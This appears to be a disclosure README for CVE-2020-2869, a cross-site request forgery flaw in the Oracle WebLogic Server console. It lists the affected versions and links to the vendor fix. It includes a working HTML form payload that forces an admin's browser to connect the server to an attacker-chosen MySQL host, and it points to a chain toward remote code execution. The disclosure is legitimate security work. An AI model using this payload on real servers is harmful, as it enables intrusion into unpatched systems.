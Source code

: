 # CVE-2020-2869: Cross-Site Request Forgery in Oracle WebLogic Server

Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware (component: Console).
<br/>
Supported versions that are affected are 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0 and 12.2.1.4.0.
<br/>
Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle WebLogic Server.
<br/>
Successful attacks require human interaction from a person other than the attacker.
<br/>
Successful attacks of this vulnerability can result in unauthorized update, insert or delete access to some of Oracle WebLogic Server accessible data.
<br/>

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://www.oracle.com/security-alerts/cpuapr2020.html).

### Proof Of Concept:

The "Test Connection" ("testConnectionConfiguration") action of the "createjdbcdatasource" endpoint of the Oracle WebLogic Server is vulnerable to Cross-Site Request Forgery (CSRF).
<br/>
Using this, an attacker may trick an authenticated user into connecting to an arbitrary datasource.
<br/>
<br/>
<strong>Note:</strong> The "Test Connection" endpoint seems to be just one of many enpoints vulnerable to CSRF.
<br/>

CSRF Testing MySQL Connection:

```
<html>
  <body>
    <form action="http://192.168.47.214:7001/console/console.portal?CreateGlobalJDBCDataSourcePortlet_actionOverride=/com/bea/console/actions/jdbc/datasources/createjdbcdatasource/testConnectionConfiguration" method="POST">
      <input type="hidden" name="CreateGlobalJDBCDataSourcePortletdriverClassName" value="com&#46;mysql&#46;cj&#46;jdbc&#46;MysqlXADataSource" />
      <input type="hidden" name="CreateGlobalJDBCDataSourcePortleturl" value="jdbc&#58;mysql&#58;&#47;&#47;192.168.47.196&#58;3306&#47;a" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Where:
- 192.168.47.214:7001 is the address to the server running the WebLogic application
- 192.168.47.196 is the ip for the MySQL Server

<img src="CSRF%20served%20by%20attacker.png"/>
<img src="Victim%20Executes%20CSRF.png"/>

### Additional Resources:

This vulnerability can be used to leverage [CVE-2020-2875: Oracle MySQL Connectors "LOAD DATA LOCAL INFILE" Attack](../CVE-2020-2875-MySQL%20LOAD%20DATA%20LOCAL%20INFILE%20Attack-Oracle%20MySQL%20Connectors/) and may result in [WebLogic Remote Code Execution](../CVE-2020-2875-MySQL%20LOAD%20DATA%20LOCAL%20INFILE%20Attack-Oracle%20MySQL%20Connectors/PoC%20for%20Oracle%20WebLogic/)

<img src="CSRF%20and%20CVE-2020-2875.png"/>
